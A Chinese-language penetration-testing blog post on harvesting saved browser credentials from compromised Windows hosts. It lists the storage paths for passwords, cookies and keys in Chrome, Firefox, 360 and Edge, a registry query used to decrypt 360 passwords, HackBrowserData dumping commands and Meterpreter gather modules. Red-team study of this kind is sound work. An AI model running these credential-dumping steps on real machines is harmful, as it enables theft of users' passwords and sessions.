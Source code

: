 # 内网渗透-Windows凭据收集之浏览器凭据(7)

  
  
&lt;!--more--&gt;  
## chrome  
`chrome`配置文件路径  
`C:\Users\win10\AppData\Local\Google\Chrome\User Data/`  
`cookie`默认保存地址  
`C:\Users\win10\AppData\Local\Google\Chrome\User Data\Default\Cookies`  
`History`默认保存地址  
`C:\Users\win10\AppData\Local\Google\Chrome\User Data\Default\History`  
chrome的登录账号密码文件Login Data默认保存地址  
`C:\Users\win10\AppData\Local\Google\Chrome\User Data\Default\Login Data`  
chrome中存储加密Key的默认保存地址  
`C:\Users\win10\AppData\Local\Google\Chrome\User Data\Local State`  
查看版本及详细信息  
`chrome://version/`  
chromium  
```  
C:\Users\win10\AppData\Local\Chromium\User Data\  
C:\Users\win10\AppData\Local\Chromium\User Data\Local State  
```  
https://github.com/AlisterAmo/ChromePassDumper  
## Firefox  
`firefox`配置文件路径  
```  
C:\Users\win10\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-release*\  
C:\Users\win10\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-beta*\  
C:\Users\win10\AppData\Roaming\Mozilla\Firefox\Profiles\*.dev-edition-default*\  
C:\Users\win10\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-nightly*\  
C:\Users\win10\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-esr*\  
```  
不同版本Firefox保存记录的文件名称不同，如下所示  
```  
Version大于等于32.0，保存记录的文件为logins.json  
Version大于等于3.5，小于32.0，保存记录的文件为signons.sqlite  
#凭据存储地址  
AppData\Roaming\Mozilla\Firefox\Profiles\随机字符.default-release\logins.json  
#密钥地址  
AppData\Roaming\Mozilla\Firefox\Profiles\随机字符.default-release\key4.db  
```  
注意：Master Passoword这个设置  
https://github.com/mishmashclone/Flangvik-SharpCollection/commit/46aa6d803e256fe56927e42f6da9e1f0a496e2f7  
ThunderFox.exe creds  
## 360   
360浏览器是基于Chromium 86内核开发的。  
360浏览器密码默认存储路径  
```  
360chrome C:\Users\win10\AppData\Local\360Chrome\Chrome\User Data\Default  
360浏览器 C:\Users\win10\AppData\Roaming\360se6\User Data\Default  
```  
360安全浏览器离线解密  
首先切到指定用户权限下，获取机器id，把assis2.db账密数据库文件拖回本地执行解密  
`reg query &#34;HKLM\SOFTWARE\MICROSOFT\CRYPTOGRAPHY&#34;/v&#34;MachineGuid&#34;`  
https://github.com/hayasec/360SafeBrowsergetpass  
## Edge  
```  
C:\Users\win10\AppData/Local/Microsoft/Edge/User Data/  
C:\Users\win10\AppData/Local/Microsoft/Edge/User Data/Local State  
```  
## 工具  
https://github.com/moonD4rk/HackBrowserData  
```  
#指定edge浏览器进行脱取其数据  
HackBrowserData.exe -b edge -p &#39;C:\Users\User\AppData\Local\Microsoft\Edge\User Data\Default&#39;  
  
#指定edge的key浏览器进行脱取其数据  
HackBrowserData.exe -b edge -p &#39;C:\Users\User\AppData\Local\Microsoft\Edge\User Data\Default&#39; -k &#39;C:\Users\User\AppData\Local\Microsoft\Edge\User Data\Local State&#39;  
# 指定chrome浏览器进行脱取其数据  
HackBrowserData.exe -b chrome -p &#39;C:\Users\win10\AppData\Local\Google\Chrome\User Data\Default\Login Data&#39;  
#指定chrome的key浏览器进行脱取其数据  
HackBrowserData.exe -b chrome -p &#39;C:\Users\User\AppData\Local\Microsoft\Edge\User Data\Default&#39; -k &#39;C:\Users\win10\AppData\Local\Google\Chrome\User Data\Local State&#39;  
  
全局选项  
		--verbose --vv 详细(默认值:false)  
		--compress --cc 将结果压缩为zip(默认值:false)  
		--browser value,-b value 可用浏览器 all|opera|firefox|chrome|edge(默认值为:all)  
		--result-dir 值,--dir 值导出目录(默认值：&#34;结果&#34;)  
		--format 值，-f 值格式,csv|json|控制台  
		--profile-dir-path 值,-p 值自定义配置文件目录路径，使用chrome://version获取  
		--key-file-path 值,-k 值自定义密钥文件路径  
```  
https://github.com/QAX-A-Team/BrowserGhost  
## Meterpreter对于IE、Chrome、Firefox的不同收集模块  
```  
run post/windows/gather/enum_chrome #获取Chrome缓存  
run post/windows/gather/enum_firefox #获取Firefox缓存  
run post/windows/gather/enum_ie #获取IE缓存  
```  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-windows%E5%87%AD%E6%8D%AE%E6%94%B6%E9%9B%86%E4%B9%8B%E6%B5%8F%E8%A7%88%E5%99%A8%E5%87%AD%E6%8D%AE7/  

